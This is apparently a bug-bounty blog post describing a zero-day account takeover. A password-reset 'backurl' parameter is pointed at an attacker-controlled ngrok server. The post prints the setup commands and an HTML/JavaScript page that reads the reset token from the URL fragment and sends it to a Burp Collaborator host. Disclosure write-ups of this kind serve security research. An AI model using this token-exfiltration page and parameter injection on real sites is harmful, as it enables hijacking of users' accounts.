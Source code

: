 
156

[

](https://medium.com/plans?dimension=post_audio_button&postId=f880fabc2d1c&source=upgrade_membership---post_audio_button----------------------------------)

#Support_Gaza #Free_Palestine

Hello Hackers this is Hossam Shady and i am gonna discuss how could i hack thousands of domains and subdomains with account takeover zero day vulnerability . For me i focus on functions and how to bypass it . let’s call the target reacted.com . i made account with this site and started digging in password functionality . changing the headers to my burp collaborator but in vain . after that started digging and replacing the email of the victim with my email by all techniques but in vain (i will make full write-up for all advanced techniques for reset password function cracking ) . i starting fuzzing the body payloads with burpsuite Param miner => guess params => guess everything . after sometime found parameter called “backurl” and but it in my request while resetting the password and put my burp collaborator and boom the burp url was sent to the vicitm but all of the above was not the hard and difficult part .

![](https://miro.medium.com/v2/resize:fit:700/1*cu8fIe_6GqDPBH2ENVWqbQ.png)

the difficult and challenging part is that after clicking on that link there was interaction reaching my burp collaborator but without the token . then all what i did is in vain but no impossible for me to leave it . started searching for any solution to bypass it and after deep search found that i can use two servers to receive the token as in my terminal i started local server with

service apache2 start

after that i started ngrok

ngrok http 80

and saved the file /var/www/html/index.html

<!DOCTYPE html>  
<html>  
<head>  
    <title>Fragment Identifier Sender</title>  
</head>  
<body>  
    <script>    var fragment = window.location.hash.substr(2);   
      
    var url = "https://burpcollaborator.net/?x=" + encodeURIComponent(fragment);  
    var xhr = new XMLHttpRequest();  
    xhr.open("GET", url, true);  
    xhr.send();   </script>  
   </body>  
   </html>

this script would strip the token from the url and then send it back to my burp collaborator

then i injected the ngrok link in the request backurl=http://link.ngrok.com

once victim clicks the link that reached his account the script i made in my local machine would take the token and send it to my burpsuite collaborator and with that i could make account takeover

![](https://miro.medium.com/v2/resize:fit:1585/1*49C0tdIghOoFArlNBqZBDg.png)

![](https://miro.medium.com/v2/resize:fit:1585/1*cuNOlJFmeg7T-eTmOUAjGw.png)

the Problem was bigger as the framework was vulnerable to that and checked and found all sites with the same framework is vulnerable to the same vulnerability and till yet they are updating and patching it

best regards, hossam shady

follow me on linkedin [https://www.linkedin.com/in/hossam-ayman-123330193/](https://www.linkedin.com/in/hossam-ayman-123330193/)

clap here …

